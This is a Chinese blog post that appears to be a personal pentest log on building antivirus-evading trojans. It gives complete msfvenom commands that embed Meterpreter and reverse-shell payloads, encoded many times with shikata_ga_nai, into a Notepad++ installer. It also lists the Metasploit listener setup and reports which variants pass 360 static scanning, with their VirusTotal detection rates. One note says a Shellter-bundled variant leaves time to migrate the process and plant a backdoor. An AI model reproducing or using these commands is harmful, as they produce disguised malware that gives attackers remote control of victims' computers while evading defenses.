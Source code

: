```yaml
---
title: 免杀木马测试
date: 2022-4-18 20:48:36
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - [渗透测试,木马-Trojan-horse]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443502/Typera/2023/04/38939d28722be4a8ad01b5cca9bd13a1.png
---
```


:::default
**测试杀软：360 全家桶**
:::

## MSF

`msfconsole`

- **mp_npp:**（2022/4/16）
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	-  **免杀效果：**
		- 不能完全通过 **静态扫描**，快速扫描没事，指定文件夹扫描木马会报毒，且运行时会**第一时间**检测出木马
		- **virustotal** 的检测情况（**40 /  70**）：[检测报告](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
- **mp_rc4_npp_i15：**（2022/4/18）
	- `msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 15 -f exe > mp_rc4_npp_i15.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/meterpreter/reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**38 /  70**）：[检测报告](https://www.virustotal.com/gui/file/84391493d82a5878f2a2eaa9465e95b4eae09bc8486d514cc19a741b1918721b)

- **sh_npp_i27：**（2022/4/18）
	- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.158.139 LPORT=4444 -e x86/shikata_ga_nai -x npp.8.1.4.Installer.exe -i 27 -f exe > sh_npp_i27.exe`
	<br>
	- **监听**：
		- `use exploit/multi/handler`
		- `set payload windows/shell_reverse_tcp_rc4`
		- `set LHOST 192.168.158.139`
		- `set LPORT 4444`
		- `run`
	- **免杀效果：**
		- 能过 **360静态检测**，但会被 **动态检测** 查杀
		- **virustotal** 的检测情况（**35 /  69**）：[检测报告](https://www.virustotal.com/gui/file/0a95d390c8165cfce1dd4ce40764e27dbfd89bd396c6a2a58ae662e623aa6233?nocache=1)

## shellter 捆绑免杀
- **shellter_npp：**（2022/4/16）
	- payload 选择 **shellter 自带**的：Meterpreter_Reverse_TCP （选项 1）
	- **免杀效果：**
		- 能过 **360静态检测**，**动态检测** 报毒会有 **大约一分钟** 的延迟（时间上足够**迁移进程**+**布置后门**）
		- **virustotal** 的检测情况（**31 /  70**）[检测报告](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
